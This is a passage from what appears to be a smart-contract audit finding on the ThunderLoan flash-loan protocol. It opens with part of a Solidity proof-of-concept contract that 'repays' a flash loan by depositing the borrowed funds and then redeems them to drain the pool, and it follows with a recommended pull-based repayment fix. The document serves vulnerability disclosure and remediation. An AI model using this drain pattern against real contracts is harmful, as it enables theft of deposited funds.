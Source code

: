```solidity
        bytes calldata
    ) external override returns (bool) {
        uint256 repayAmount = amount + fee;
        IERC20(token).approve(address(tl), repayAmount);
        // Instead of repaying, deposit the borrowed funds.
        tl.deposit(IERC20(token), repayAmount);
        return true;
    }

    function withdrawDrained(IERC20 token, address to) public {
        AssetToken assetToken = tl.getAssetFromToken(token);
        // Redeem the asset tokens received from the malicious deposit.
        tl.redeem(token, assetToken.balanceOf(address(this)));
        token.transfer(to, token.balanceOf(address(this)));
    }
}
```

#### Recommendation

To secure the protocol, it is crucial to address both the flawed logic (the root cause) and the re-entrancy (the attack vector).

1.  **Fix the Root Cause: Adopt a *Pull-over-Push* Pattern:**

    The primary fix is to change the repayment logic. Instead of checking the balance, the contract should explicitly pull the required funds from the `receiverAddress`. This directly remedies the flawed validation. See the [ERC-3156 EIP](https://eips.ethereum.org/EIPS/eip-3156) for more details.

    ```diff
    function flashloan
        ...
            receiverAddress.functionCall(
                abi.encodeCall(
                    IFlashLoanReceiver.executeOperation,
                    (
                        address(token),
                        amount,
                        fee,
                        msg.sender, // initiator
                        params
                    )
                )
            );

    +       token.safeTransferFrom(receiverAddress, address(this), amount + fee);
    -       uint256 endingBalance = token.balanceOf(address(assetToken));
    -       if (endingBalance < startingBalance + fee) {
    -           revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
    -       }
    +       // Sanity check (covers deflationary-fee tokens)
    +       require(token.balanceOf(address(this)) >= startingBalance + fee, "Sanity check failed");
            s_currentlyFlashLoaning[token] = false;
    ```
